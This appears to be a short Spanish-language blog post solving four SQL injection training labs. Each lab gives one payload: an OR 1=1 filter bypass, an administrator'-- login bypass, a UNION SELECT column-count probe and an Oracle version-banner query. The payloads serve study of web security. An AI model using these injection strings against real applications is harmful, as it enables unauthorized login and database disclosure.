 ```yaml
---
typora-copy-images-to: ../assets/img
typora-root-url: ../
layout: post
categories:
conToc: true
title: Inyeccion SQL
---
```


# SQL Injection



## LAB 1

Buscamos una categoría y pegamos el siguiente codigo al lado de la URL

```bash
'+OR+1=1--
```

![image-20220510122452718](/assets/img/image-20220510122452718.png)



## LAB 2

Entramos en My Account y ponemos el siguiente usuario

```bash
administrator'--
```

![image-20220510123014402](/assets/img/image-20220510123014402.png)



## LAB 3

AL igual que en el primer lab entramos en una categoría, y añadimos:

```bash
'+UNION+SELECT+NULL,NULL,NULL--
```

![image-20220510123847144](/assets/img/image-20220510123847144.png)





## LAB 4

Parecido al 1 y 3, entramos en una categoría, y añadimos el siguiente código a la URL:

```php
'+UNION+SELECT+BANNER,NULL+FROM+v$version--
```

![image-20220510124048343](/assets/img/image-20220510124048343.png)

